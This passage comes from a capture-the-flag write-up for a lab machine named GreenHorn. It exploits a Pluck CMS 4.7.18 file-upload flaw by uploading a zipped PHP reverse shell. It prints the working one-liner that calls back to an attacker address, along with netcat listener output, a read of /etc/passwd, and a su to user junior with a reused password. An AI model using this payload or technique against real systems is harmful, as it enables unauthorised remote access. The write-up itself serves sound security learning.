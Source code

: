 We likely wont be able to get the public key, so we cannot ssh as of now.

Navigating the website, we come across a file upload. Looks like we will have to run a reverse shell to get in. Searching online for `pluck cms 4.7.18 exploits` shows us a ["File Upload Remote Code Execution"](https://www.exploit-db.com/exploits/49909). We can use this to upload a reverse shell.

In order for this to work, we need to create a reverse shell, zip it, and upload it as a module. Then we can access it at `http://greenhorn.htb/data/modules/[ZIP_NAME]/[REVERSE_SHELL].php`

```php
<?php $sock=fsockopen("10.10.16.3",1234);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

Now we zip the file and upload it.

Start a netcat listener:

```bash
┌─[eclectic@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...

```

And now visit the reverse shell location at `http://greenhorn.htb/data/modules/payload/rs.php` and:

```bash
┌─[eclectic@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.25] 47106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ 
```

We are in.

## Lateral Movement

Checking `/etc/passwd` shows us that `junior` is a user in the system:

```bash
junior:x:1000:1000::/home/junior:/bin/bash
```

Lets try logging in as `junior`:

```bash
www-data@greenhorn:/var/mail$ su - junior
su - junior
Password: iloveyou1

junior@greenhorn:~$ cat user.txt
cat user.txt
[USER FLAG]
junior@greenhorn:~$ 

```
